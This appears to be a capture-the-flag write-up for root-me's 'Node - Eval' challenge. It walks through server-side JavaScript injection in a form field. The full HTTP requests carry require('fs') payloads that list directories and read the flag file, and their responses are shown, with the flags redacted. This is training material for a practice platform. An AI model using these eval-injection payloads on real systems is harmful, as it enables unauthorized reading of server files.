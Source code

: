 ```yaml
---
title: "Node - Eval"
description: "This challenge has a 1% success rate on root-me.org's webserver and involves injecting Node.js code to find the flag."
date: 2023-08-17
tags: ["cybersecurity", "challenge", "node", "root-me"]
---
```


![Node Eval rootme challenge article illustration](images/node-eval1.png)

First, I want to clarify that I am against cheating; it's entirely unnecessary and silly, so I'll hide the flags/hints out of respect for the platform (although it won't prevent lamers from cheating).
The challenge has a success rate of 1% at the time of writing this mini-walkthrough, so I decided to write this to share my research.

---

To succeed in this challenge, you must first trigger the inputs to see how the application works.
Attempting a Node injection in one of the inputs, the code is evaluated and returned in the "Salary" input.
We then need to list the available paths in the current directory:
```
POST / HTTP/1.1
Host: challenge01.root-me.org:59039
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Origin: http://challenge01.root-me.org:59039
Connection: close
Referer: http://challenge01.root-me.org:59039/
Cookie: _ga_SRYSKX09J7=GS1.1.1690357352.6.1.1690357369.0.0.0; _ga=GA1.1.1315424028.1680516360
Upgrade-Insecure-Requests: 1

salary=65557&housing=56767&phone=5665&transport=6767&insurance=567567&credits=56567&taxes=65756&hobbies=res.end(require('fs').readdirSync('.').toString())
Output :
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Wed, 26 Jul 2023 08:06:04 GMT
Connection: close
Content-Length: 176

._firewall,._nginx.server-level.inc,._perms,._run,._test,.git,.gitignore,.npm-packages,Makefile,*****************,css,index.js,node_modules,package-lock.json,package.json,views
```
A mysterious folder named "*****************" is listed.

We then try to list the files available inside this folder:
```
POST / HTTP/1.1
Host: challenge01.root-me.org:59039
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Origin: http://challenge01.root-me.org:59039
Connection: close
Referer: http://challenge01.root-me.org:59039/
Cookie: _ga_SRYSKX09J7=GS1.1.1690357352.6.1.1690357369.0.0.0; _ga=GA1.1.1315424028.1680516360
Upgrade-Insecure-Requests: 1

salary=65557&housing=56767&phone=5665&transport=6767&insurance=567567&credits=56567&taxes=65756&hobbies=res.end(require('fs').readdirSync('./*****************').toString())
Output :
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Wed, 26 Jul 2023 08:06:30 GMT
Connection: close
Content-Length: 9

*********
```
And there you have it, a flag file, let's display its contents:
```
POST / HTTP/1.1
Host: challenge01.root-me.org:59039
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 183
Origin: http://challenge01.root-me.org:59039
Connection: close
Referer: http://challenge01.root-me.org:59039/
Cookie: _ga_SRYSKX09J7=GS1.1.1690357352.6.1.1690357369.0.0.0; _ga=GA1.1.1315424028.1680516360
Upgrade-Insecure-Requests: 1

salary=65557&housing=56767&phone=5665&transport=6767&insurance=567567&credits=56567&taxes=65756&hobbies=res.end(require('fs').readFileSync('./*****************/*********').toString())
Output :
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Wed, 26 Jul 2023 08:07:09 GMT
Connection: close
Content-Length: 21

********************
```

Pretty easy ?:)

---

Writeup made by Bingo.
